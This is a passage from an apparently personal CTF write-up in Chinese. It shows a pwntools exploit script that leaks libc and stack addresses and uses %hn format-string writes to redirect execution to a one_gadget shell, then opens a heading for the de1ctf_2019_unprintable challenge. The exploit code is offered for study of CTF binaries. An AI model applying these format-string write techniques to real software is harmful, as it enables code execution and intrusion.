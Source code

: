 ```
success('libc_base = ' + hex(libc_base))
one = [0x3ac3c,0x3ac3e,0x3ac42,0x3ac49,0x5faa5,0x5faa6 ]
one_gadget = one[5] + libc_base
success('one_gadget = ' + hex(one_gadget))

# 泄露B栈地址，计算栈地址

r.recvuntil('0x')
stack_addr = int(r.recv(8), 16) - 0xc
success('stack_addr = ' + hex(stack_addr))

p2 = '%' + str(stack_addr&0xffff) + 'c%6$hn'
r.sendlineafter('\x0a', p2)

# r.sendline(p2)
# attach(r)

p2 = '%' + str(one_gadget & 0xFFFF) + 'c%10$hn'
r.sendlineafter('\x0a', p2)

p2 = '%' + str((stack_addr + 2)&0xffff) + 'c%6$hn'
r.sendlineafter('\x0a', p2)

p2 = '%' + str((one_gadget >> 16) & 0xFFFF) + 'c%10$hn'
r.sendlineafter('\x0a', p2)

r.sendline('quit\x00')
r.interactive()
```



## de1ctf_2019_unprintable

![[Pasted image 20241201211157.png]]

![[Pasted image 20241201211115.png]]

发现只能改一次，并且got不可改，close（1）还无法显示print（）泄露出来的东西，难绷，这题学到了新东西，下面来看看吧，


